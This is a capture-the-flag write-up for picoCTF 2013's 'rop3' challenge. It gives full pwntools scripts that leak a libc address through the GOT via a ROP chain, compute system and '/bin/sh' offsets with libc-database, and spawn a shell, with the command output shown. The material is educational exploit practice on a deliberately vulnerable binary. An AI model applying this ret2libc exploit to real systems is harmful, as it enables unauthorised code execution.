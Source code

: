 ### S0lv3d by H4yicl3

First i download source here :https://2013.picoctf.com/problems/rop3-7f3312fe43c46d26

the rop3 look like rop2 and rop1 but we can't find the address of system and /bin/sh
so we need to leak it from libc when the program running!
try to read the linked library (plt and got) http://reverseengineering.stackexchange.com/questions/1992/what-is-plt-got

so we use the function write(stdout,address,size) to write the address of got function 
i use pwntools to support : https://github.com/Gallopsled/pwntools

we need found the address by using the objdump and IDA
```
objdump -R rop3

rop3:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a000 R_386_JUMP_SLOT   read						<---- the address of read_got
0804a004 R_386_JUMP_SLOT   getegid					
0804a008 R_386_JUMP_SLOT   __gmon_start__
0804a00c R_386_JUMP_SLOT   __libc_start_main
0804a010 R_386_JUMP_SLOT   write					<---- the address of write_got
0804a014 R_386_JUMP_SLOT   setresgid

.plt:080483A0                 jmp     ds:off_804A010	<---- the address of write_plt

.text:08048474 vulnerable_function proc near           ; CODE XREF: main+Ep <---- the address of vulnerable_function
```

the python script
```python
from pwn import *

context(arch = 'i386',os = 'linux')

s = process("./rop3",shell = True)	#excute the binary

padding ="A"*140
vulnerable_function = 0x08048474
write_plt 			= 0x080483A0
return_after_write 	= vulnerable_function
stdout				= 1
write_got			= 0x0804a010
size				= 4

payload = padding + p32(write_plt) + p32(return_after_write) + p32(stdout) + p32(write_got) + p32(size)

s.sendline(payload)
address_write_got=u32(s.recv(4))

print hex(address_write_got) 
```

try run it
```
python rop3_local.py 
[+] Starting local process None: Done
0xf7654fe0
[*] Stopped program None
```

we have the address of write_got but when run again the address will difference
so we need to use it to leak the address system and /bin/sh to excute that in the program when the program running

we use libc-database to know the offset of system and bin/sh
https://github.com/niklasb/libc-database
```
hayicle@ubuntu:~/ctf/pwntools/libc-database$ ./find write 0xf7654fe0
ubuntu-trusty-i386-libc6 (id libc6_2.19-0ubuntu6.9_i386)

hayicle@ubuntu:~/ctf/pwntools/libc-database$ ./dump libc6_2.19-0ubuntu6.9_i386
offset___libc_start_main_ret = 0x19af3
offset_system = 0x00040310				<----- the offset of system@got
offset_memset = 0x0007c9c0
offset_dup2 = 0x000db920
offset_read = 0x000daf60
offset_atoi = 0x000318e0
offset_printf = 0x0004d410
offset_puts = 0x000657e0
offset_write = 0x000dafe0				<----- the offset of write_got
offset_str_bin_sh = 0x16084c			<----- the offset of bin/sh

```

the python script look like
```python
from pwn import *

context(arch = 'i386',os = 'linux')

s = process("./rop3",shell = True)	#excute the binary

padding ="A"*140
vulnerable_function = 0x08048474
write_plt 			= 0x080483A0
return_after_write 	= vulnerable_function
stdout				= 1
write_got			= 0x0804a010
size				= 4

payload = padding + p32(write_plt) + p32(return_after_write) + p32(stdout) + p32(write_got) + p32(size)

s.sendline(payload)
address_write_got=u32(s.recv(4))

print hex(address_write_got) 
#stage2
offset_write = 0x000dafe0 
offset_binsh = 0x16084c
offset_system = 0x00040310

address_libc_base = address_write_got - offset_write
address_of_system = address_libc_base + offset_system
address_of_binsh = address_libc_base + offset_binsh
return_after_system = "junk"

payload2 = padding + p32(address_of_system) + return_after_system + p32(address_of_binsh)
s.sendline(payload2)

s.interactive()
```

try run it 
```
python rop3_local.py 
[+] Starting local process None: Done
0xf763ffe0
[*] Switching to interactive mode
$ whoami
hayicle
```

well play!!


